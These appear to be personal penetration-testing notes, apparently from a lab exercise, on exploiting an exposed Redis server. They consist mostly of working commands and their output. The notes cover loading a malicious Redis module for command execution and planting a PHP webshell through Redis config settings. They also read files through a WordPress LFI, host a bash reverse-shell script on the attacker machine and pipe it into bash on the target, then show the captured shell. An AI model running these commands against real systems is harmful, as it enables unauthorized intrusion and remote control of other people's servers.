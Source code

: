 https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
#### Download Redis
OPTION 1:
```
sudo apt install redis-tools
```
```
redis-cli -h $TARGET -a Ready4Redis?
```
If password doesn't work try obtaining the [[#Redis config fille]].
192.168.120.85:6379> ping
PONG
```bash - kali
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
```
```bash - kali
cd RedisModules-ExecuteCommand
```
```bash - kali
sudo make
```
Upload module.so into victim (Example by FTP):
We can google "ftp pub directory" to find that the default location is in /var/ftp/pub.
>/var/ftp/pub/module.so
### Redis RCE
```bash - kali
redis-cli -h $TARGET
```
```bash - kali
MODULE LOAD /var/ftp/pub/module.so
```
```bash - kali
system.exec "id"
```
[[Port 22 - SSH  ~#Generate key upload to victim]]
### Redis config files
Use with LFI vulnerability.
```
curl http:$TARGET/?path=/etc/redis/redis.conf -o redis.conf
```
```
curl http:$TARGET/?path=/etc/systemd/system/redis.service
```
#### Redis webshell
After logging in successfully:
Try with /var/www/ and /var/www/html.
```
192.168.120.85:6379> config set dir /var/www/html
OK
192.168.120.85:6379> config set dbfilename test.php
OK
192.168.120.85:6379> set test "<?php system('id'); ?>"
OK
192.168.120.85:6379> save
(error) ERR
```
If you get an error as seen above, try obtaining redis.service file from [[#Redis config files]] and note where ReadWriteDirectories variable points to.
```
...
ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
...
```
Try the steps again with the new paths:
```
192.168.120.85:6379> config set dir /opt/redis-files
OK
192.168.120.85:6379> config set dbfilename test.php
OK
192.168.120.85:6379> set test "<?php system('id'); ?>"
OK
192.168.120.85:6379> save
OK
192.168.120.85:6379>
```
We can then use LFI to read this file. The contents will be in Redis RDB format so let's output it to a file and run `strings`.
```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.85/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   193  100   193    0     0   2014      0 --:--:-- --:--:-- --:--:--  2031
┌──(kali㉿kali)-[~]
└─$ file test.php
test.php: Redis RDB file, version 0009
┌──(kali㉿kali)-[~]
└─$ strings test.php
REDIS0009
        redis-ver
5.0.14
redis-bits
ctime
used-mem
aof-preamble
test
uid=1000(alice) gid=1000(alice) groups=1000(alice)
 {"success":true,"data":{"output":[]}}
```
The output from the `id` command can be found in this file. This means we can execute a reverse shell using this method. Let's start by creating a file on our kali host named **shell.sh** with the following contents.
```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/$KALI/443 0>&1
```
Let's host this file using a python webserver to make it available to the target.
[[Python#Server]]
We then need to start a listener to catch the reverse shell.
[[1._rlwrap]]
Next, let's use our Redis session to cause the target to download and pipe **shell.sh** into `bash`.
```
192.168.120.85:6379> config set dir /opt/redis-files
OK
192.168.120.85:6379> config set dbfilename test.php
OK
192.168.120.85:6379> set test "<?php system('curl $KALI/shell.sh | bash'); ?>"
OK
```
Finally, we trigger our reverse shell by using the WordPress LFI.
```
curl http:$TARGET/?path=/opt/redis-files/test.php
```
This command will hang, and we will receive a connection to our listener.
```
connect to [$KALI] from (UNKNOWN) [192.168.120.85] 45752
bash: cannot set terminal process group (551): Inappropriate ioctl for device
bash: no job control in this shell
<ite-editor/editor/extensions/pagebuilder/includes$ whoami
whoami
alice
<ite-editor/editor/extensions/pagebuilder/includes$ id
id
uid=1000(alice) gid=1000(alice) groups=1000(alice)
<ite-editor/editor/extensions/pagebuilder/includes$
```
